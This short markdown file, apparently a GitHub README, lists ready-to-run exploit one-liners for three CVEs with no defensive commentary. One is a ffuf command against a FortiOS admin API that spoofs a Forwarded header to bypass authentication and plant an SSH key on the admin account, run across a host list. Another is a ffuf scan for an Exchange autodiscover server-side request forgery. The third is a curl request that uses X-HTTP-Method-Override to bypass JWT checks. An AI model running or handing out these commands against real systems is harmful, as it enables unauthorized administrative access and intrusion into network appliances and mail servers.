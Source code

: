 
 # CVE-2022-40684
## @h4x0r_dz
```
 ffuf -w "host_list.txt:URL" -u "https://URL/api/v2/cmdb/system/admin/admin" -X PUT -H 'User-Agent: Report Runner' -H 'Content-Type: application/json' -H 'Forwarded: for="[127.0.0.1]:8000";by=”[127.0.0.1]:9000";' -d '{"ssh-public-key1": "h4x0r"}' -mr "SSH" -r
 ```

# CVE-2022-41040
## @unknown
```
 ffuf -w "urllist.txt:URL" -u "https://URL/autodiscover/autodiscover.json?@URL/&Email=autodiscover/autodiscover.json%3f@URL" -mr "IIS Web Core" -r
```
# bypasses JWT checking by using the X-HTTP-Method-Override request header!
## CVE-2023-30845
```
 curl --request POST \
     --header "X-HTTP-Method-Override: PUT" \
     --header "Content-Type: application/json" \
     --data '{"username":"xyz"}' \
     https://my-endpoint.com/api
```
